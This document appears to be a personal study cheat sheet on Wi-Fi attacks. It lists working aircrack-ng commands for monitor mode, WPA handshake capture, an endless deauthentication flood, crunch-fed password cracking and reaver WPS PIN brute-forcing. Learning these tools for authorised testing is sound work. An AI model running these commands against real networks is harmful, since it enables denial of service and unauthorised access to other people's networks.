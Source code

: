 ## Notes on wifi hacking

- **reaver** a tool for gussing pins on router
- In wireless protocol MAC address not encrypted.

- `airmon-ng start wlan0mon 9[optional channel number]` put wireless card in monitor mode and changes wireless card name .

- `airmon-ng check wlan0mon ` check all process where may cause problem for monitoring.

- using `airmon-ng check kill` to kill problem maker processes.

- `airodump-ng wlan0mon` monitor all wireless signals in our env.

- **BSSID** is MAC address

- **PWR** is strength of signal and whatever greater is better signal. recomended is greater than -60

- `airodump-ng --bssid 08:86:30:74:22:76 -c 6[channel] --write WPAcrack[file to write handshake] wlan0mon` for capturing specific access point.

- **station** is a device that connect to the access point.

- `aireplay-ng -0 0 -a 08:86:30:74:22:76 wlan0mon` in an ifinity loop send deauthenticate packet to access point and deauthenticate each othe on the network. kind of DoS attack.
`-0` is deauthenticate attack selection.
`0` indicates to ifinity loop 
`-a 08:86:30:74:22:76` wireless MAC address.

- `crunch 11 11 -t %%%%hunder 1234567890 | aircrack-ng -w - SCAN_file.cap -e[essid] something` example of using aircrack-ng with crunch to crack the password. of course crunch man page is a good guaid to set a better setting. 

- `wash` is a tool to WiFi protect setup scan.

- there where scripts in web for gussing wifi default pin.

- in using reaver it is recomended to  default MAC address 

- example of using **reaver** ‍‍‍‍‍`reaver -i wlan0mon -b 08:86:30:74:22:76 -vv`

- changing channel of my wireless card. `iwconfig wlan0mon channel [1-14]`-